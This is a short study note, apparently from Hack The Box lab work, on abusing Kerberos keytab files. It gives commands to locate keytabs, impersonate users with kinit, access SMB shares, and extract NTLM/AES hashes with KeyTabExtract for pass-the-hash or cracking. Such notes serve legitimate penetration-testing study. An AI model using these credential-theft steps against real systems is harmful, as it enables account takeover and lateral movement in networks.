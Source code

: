 ## Finding Keytab Files
```shell-session
find / -name *keytab* -ls 2>/dev/null
```
can also check the cronjob to see if there are any jobs that require the keytab
```
crontab -l
```
then if we still something like `kinit`
```
kinit svc_workstations@INLANEFREIGHT.HTB -k -t /home/carlos@inlanefreight.htb/.scripts/svc_workstations.kt
```
the .kt file here is the keytab ?

# Impersonate users
using keytab 
```
klist -k -t /opt/specialfiles/carlos.keytab 
```
allows us to find more information about the keytab (users, domain etc)
```
kinit name@domain -k -t /path/to/keytab
klist //to see what user we r now
```
connecting to smbclient 
```
smbclient //dc01/name -k -c ls
```

# Extracting credentials from keytab
[KeyTabExtract](https://github.com/sosdave/KeyTabExtract), a tool to extract valuable information from 502-type .keytab files
```
python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab 
```
then we can get the ntlm hash -> perform [[Pass the Hash (PtH)]] / crack with hashcat /johnnie
AES256/AES128 -> crack hashes to obtain plaintext password
or https://crackstation.net